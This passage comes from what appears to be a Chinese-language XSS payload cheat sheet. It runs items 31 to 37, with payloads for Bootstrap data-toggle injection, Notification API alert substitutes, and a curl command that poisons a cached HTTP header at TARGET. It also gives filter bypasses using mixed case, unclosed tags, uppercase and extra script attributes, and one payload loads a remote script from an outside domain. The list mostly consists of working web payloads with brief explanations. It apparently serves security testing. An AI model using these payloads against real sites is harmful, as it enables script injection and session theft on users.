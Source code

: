 ```
该payload用于web应用调用bootstrap库时进行测试。 href值的任何char都可以进行HTML编码，只需单击页面中的任意位置即可触发，并且绕过Webkit Auditor过滤器。 <br>

<html data-toggle=tab href="<img src=x οnerrοr=alert(1)>">
```

##### 32.Browser Notification (浏览器通知)

```
以下payload用作alert()，prompt()和confirm()函数的替代方法。 如果用户已经触发第一个payload，就可以使用第二个payload进行测试。<br>

Notification.requestPermission(x=>{new(Notification)(1)})
new(Notification)(1)
```

##### 33.XSS in HTTP Header - Cached (HTTP请求头中-缓存xss)

```
该payload用于使用MISS-MISS-HIT缓存方案（如果服务器端开启）在应用程序中测试存储XSS。 将XSS标签替换为相应的payload，并将TARGET替换为虚拟字符串， 触发相同的请求3次，以避免页面的实际缓存信息。<br>

$ curl -H "Vulnerable_Header: <XSS>" TARGET/?dummy_string
```

#### 0x03绕过

##### 34.Mixed Case（大小写混合）

```
该payload用于绕过区分大小写的xss过滤器。

<Svg OnLoad=alert(1)>
<Script>alert(1)</Script>
```

##### 35.Unclosed Tags（未闭合标签）

```
该payload在HTML注入中使用，可避免同时存在小于（<）和大于（>）符号的情况。

<svg οnlοad=alert(1)//
<svg οnlοad="alert(1)"
```

##### 36.Uppercase XSS (大写 XSS)

```
当web应用以大写形式返回用户的输入时使用该payload。 URL中将"＆"替换为"％26"，将"＃"替换为"％23"。

<SVG ONLOAD=alert(1)>
<SCRIPT SRC=//BRUTELOGIC.COM.BR/1></SCRIPT>
```

##### 37.Extra Content for Script Tags (脚本标签的额外内容)

```
当web应用过滤器查找带有某些变体的"<script>"或"<script src = ..."但不检查其他属性时使用该payload。

<script/x>alert(1)</script>  
```
